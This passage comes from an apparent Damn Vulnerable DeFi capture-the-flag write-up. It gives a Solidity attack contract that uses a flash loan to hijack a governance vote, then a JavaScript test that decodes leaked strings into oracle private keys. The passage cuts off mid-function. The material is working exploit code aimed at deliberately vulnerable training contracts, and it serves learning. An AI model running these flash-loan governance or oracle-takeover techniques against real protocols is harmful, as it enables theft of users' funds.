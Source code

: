 ```sol
contract SelfieAttacker is IERC3156FlashBorrower {

    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    SimpleGovernance governance;
    DamnValuableTokenSnapshot token;
    SelfiePool pool;

    constructor(address _governanceAddr, address _tokenAddr, address _poolAddr) {
        governance = SimpleGovernance(_governanceAddr);
        token = DamnValuableTokenSnapshot(_tokenAddr);
        pool = SelfiePool(_poolAddr);
    }

    function attack() public payable {
        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), token.balanceOf(address(pool)), "");
        bytes memory payload = abi.encodeWithSignature("emergencyExit(address)", msg.sender);
        governance.queueAction(address(pool), 0, payload);
    }

    function onFlashLoan(
        address,
        address,
        uint256 amount,
        uint256,
        bytes calldata
    ) external returns (bytes32) {
        token.snapshot();
        token.approve(msg.sender, amount);
        return CALLBACK_SUCCESS;
    }
}

```

### 7. Compromised

This challenge consists of 2 parts. The first part involves an oracle contract controlled by three accounts. The second part is an exchange that uses this oracle to set prices for its NFTs. A direct approach to drain the exchange's funds would be to gain control over the oracle. Once in control, we can manipulate the market by buying at low prices and selling at high prices.

The primary challenge lies in gaining control of the oracle. Fortunately, we are given two hex strings. Upon decoding these, we can find that it results to another base64 encodings. Decoding them a second time reveals that they are actually the private keys of two of the oracle's controlling accounts.

```js
it('Execution', async function () {
    // Decode the hex string.
    const hex0 = '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35';
    const hex1 = '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34';
    const base640 = Buffer.from(hex0.split(' ').join(''), 'hex').toString('utf8')
    // MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
    const base641 = Buffer.from(hex1.split(' ').join(''), 'hex').toString('utf8')
    // MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
    const privateKey0 = Buffer.from(base640, 'base64').toString('utf8');
    // 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
    const privateKey1 = Buffer.from(base641, 'base64').toString('utf8');
```